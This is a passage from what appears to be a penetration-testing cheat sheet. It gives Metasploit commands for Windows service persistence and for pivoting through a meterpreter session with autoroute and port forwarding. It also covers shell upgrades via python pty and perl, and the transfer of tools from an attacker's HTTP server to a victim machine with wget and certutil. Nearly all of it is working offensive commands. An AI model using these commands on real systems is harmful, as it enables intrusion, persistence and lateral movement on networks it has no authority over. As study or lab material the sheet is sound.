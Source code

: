 ##### Services

```bash
> use exploit/windows/local/persistence_service
```

### Pivoting

```bash
# once with a meterpreter session
m> ipconfig
m> run autoroute -s <ip>.0/20
# list routes
m> run autoroute -p
m> background
> use auxiliary/scanner/portscann/tcp
> set RHOSTS <ip_target2>
m> portfwd add -l 1234 -p <target2_port> -r <target2_ip>
# scan portforwarded wit nmap
$ nmap -sV -p 1234 localhost
> use <module>
> set RHOSTS <target2_ip>
```

### Upgrading shells

```bash
# simple upgrade
/bin/bash -i
# first list valid shells
cat /etc/shells
# look for python
python --version
# if python is installed
python -c 'import pty; pty.spawn("/bin/bash")'
# if perl
perl -e 'exec "/bin/bash";'
# look for env
env
# set useful variables
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
export TERM=xterm
export SHELL=bash
```

### Transferring Files

#### Linux

```bash
# on attack machine
python 3 -m http.server 80
# on victim machine
wget http://<ip>/<file>
```

#### Windows

```bash
python3 -m http.server 80
# dl on windows
>certutil -urlcache -f http://<ip>/<file> <file>
```
